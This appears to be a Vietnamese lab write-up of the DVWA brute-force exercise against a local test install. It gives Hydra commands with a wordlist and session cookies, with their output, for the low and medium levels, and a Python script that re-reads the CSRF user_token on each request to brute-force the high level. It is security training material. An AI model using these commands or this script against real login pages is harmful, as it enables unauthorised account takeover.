




# Brute Force

Mục tiêu là tấn công một trang đăng nhập HTTP.

**Mức độ: Thấp.**

Chúng ta cần truyền vào form 2 trường thông tin là username và password.



Ta sẽ bắt gói tin http từ client thì có thông tin như sau:



Ta thấy có trường thông tin username và password được hiện thị rõ từ đó ta có thể dùng hydra để tấn công nhằm mục tiêu tìm được tài khoản chính xác.

```Shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie=PHPSESSID=r64e85mgv5hb2h4f06otns746d; security=low'
```

<details><summary markdown="span">Bấm để xem output : </summary>

```Shell
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie=PHPSESSID=r64e85mgv5hb2h4f06otns746d; security=low'

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-15 11:15:02
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://localhost:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346
[80][http-get-form] host: localhost  login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```
</details>

**Mức độ: Trung bình.**



Bên trên là request của client khi gửi gói tin đăng nhập lên server, ta có thể thấy về cơ bản thì gói tin không khác so với gói tin ở mức độ thấp -> vẫn có thể dùng hydra để bẻ khóa.

```Shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie=PHPSESSID=aer4ns3d8rfl601snqa9q6l2t6; security=medium'
```

<details><summary markdown="span">Bấm để xem output : </summary>

```Shell
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie=PHPSESSID=aer4ns3d8rfl601snqa9q6l2t6; security=medium'

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-15 11:20:02
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://localhost:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=aer4ns3d8rfl601snqa9q6l2t6
[80][http-get-form] host: localhost  login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```
</details>

**Mức độ: Cao.**



Ở mức độ này, về cơ bản thì request vẫn giống như 2 mức độ nhưng ta có thể thấy trong URL thấy có xuất hiện thêm user_token, thông só này sẽ khiên brute force trở nên khó khăn hơn vì ngoài phải đoán mật khẩu, kẻ tấn công phải đoán cả token và token thì lại luôn thay đổi sau các phiên đăng nhập -> không thể sử dụng hydra. -> nên sử dụng python

```Python
import requests
from bs4 import BeautifulSoup
from requests.structures import CaseInsensitiveDict

url = "http://127.0.0.1/DVWA/vulnerabilities/brute/"
headers = CaseInsensitiveDict()
headers["Cookie"] = "PHPSESSID=aer4ns3d8rfl601snqa9q6l2t6; security=high"

r = requests.get(url, headers=headers)

r1 = r.content
soup = BeautifulSoup(r1, 'html.parser')
user_token = soup.findAll('input', attrs={'name': 'user_token'})[0]['value']

with open("/usr/share/wordlists/password.txt", "rb") as f:
    for i in f.readlines():
        i = i[:-1]
        try:
            a1 = i.decode()
        except UnicodeDecodeError:
            print(f'can not decode {i}')
            continue

        r = requests.get(f'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=admin&password={a1}&Login=Login&user_token={user_token}', headers=headers)
        
        r1 = r.content
        soup1 = BeautifulSoup(r1, 'html.parser')
        user_token = soup1.findAll('input', attrs={'name': 'user_token'})[0]['value']
        print(f'checking {a1}')
        if 'Welcome' in r.text:
            print(f'LoggedIn: username: admin , password:{a1}')
            break
    
```

<details><summary markdown="span">Bấm để xem output : </summary>

```Shell
└─$ python solve.py
checking 1234567
checking 876543
checking 345678
checking ertyui
checking kjhgfd
checking gfdsdfghjk
checking 3456789
checking nbvcx
checking 456789
checking mnbv
checking 4567o
checking jhgfd
checking 3456yujk
checking mnhgfr4
checking iuytfdcv
checking password
LoggedIn: username: admin , password:password
```
</details>


